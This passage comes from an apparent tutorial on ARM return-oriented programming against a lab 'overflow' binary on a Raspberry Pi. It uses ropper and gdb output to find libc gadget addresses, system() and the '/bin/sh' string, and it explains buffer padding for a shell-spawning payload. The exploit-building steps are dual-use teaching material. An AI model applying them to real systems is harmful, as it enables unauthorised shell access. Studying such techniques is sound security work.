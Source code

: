 
### Address of the 2nd gadget
Now, let's look for the address of the 2nd gadget in similar way.

```bash
pi@raspberrypi:~$ ropper --file /lib/arm-linux-gnueabihf/libc.so.6 --search "ldr r0, [sp, #4]; blx r4"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ldr r0, [sp, #4]; blx r4

[INFO] File: /lib/arm-linux-gnueabihf/libc.so.6
0x0002d290: ldr r0, [sp, #4]; blx r4;
```
So, we get the offset of the second gadget which is $0x0002d290$.

Now, adding to the base address, we get the final address as $0x76e74290$.


### Address of System()
Let's find the address of the system using `gdb`:
```bash
$ gdb -q ./overflow
    GEF for linux ready, type `gef' to start, `gef config' to configure
    79 commands loaded for GDB 7.12.0.20161007-git using Python engine 3.5
    [*] 1 command could not be loaded, run `gef missing` to know why.
    Reading symbols from ./overflow...(no debugging symbols found)...done.
    gef->  break main
    Breakpoint 1 at 0x104fc
    gef->  run
    Starting program: /home/pi/overflow
    .......................................
    .......................................
    
    gef->  print system
    $1 = {int (const char *)} 0x76e7f9c8 <__libc_system>
```

### Address of `/bin/sh`
We can retrieve the address of `/bin/sh` in the same way inside `gdb`
```
    gef> find &system,+9999999,"/bin/sh"
        
        0x76f72b6c
warning: Unable to access 16000 bytes of target memory at 0x76f82574, halting search.
1 pattern found.
```
So, the final address is : $0x76f72b6c$


## Final Payload
The padding should be upto the byte before return address starts. For example in our testbed we used 100 char arrays. Therefore, the return address should start from $105^{th}$ position and the padding should be 104 character or similar size of NoP sled.
